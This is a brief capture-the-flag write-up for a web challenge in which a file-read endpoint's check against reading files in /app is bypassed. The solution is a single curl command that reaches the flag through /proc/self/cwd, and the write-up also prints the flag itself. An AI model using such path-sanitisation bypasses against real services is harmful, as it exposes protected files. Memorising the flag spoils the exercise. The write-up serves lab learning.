 # Baby Session Forger (I got junior firstblood)
## Challenge
- **Solves**: 19
- **Name**: Baby session forger
- **Points**: 116

## Description
I forgot to make it so I could auth myself. And now I’m locked out, please help me recover my flag:  
[babysessionforger.hkn](babysessionforger.hkn)  

**Handout SHA256**:  
`00F8469063A5D72BD49443BD4F02CF72476FC7F65BFED1740FC71FCA0ACB137D`

**NOTE**: Create a user and find the VPN and Browser LABs on Campfire Labs

## Solution
The idea is to bypass the simple "don’t read files in /app" check by referencing the file in a different way. I used this command:  
```bash
curl -X POST babysessionforger.hkn/fileread -d "filename=/proc/self/cwd/flag.txt&offset=0&amount=100"
```

## Flag
`DDC{P4th_s4n1t1z4t10n_d0n3_wrong}`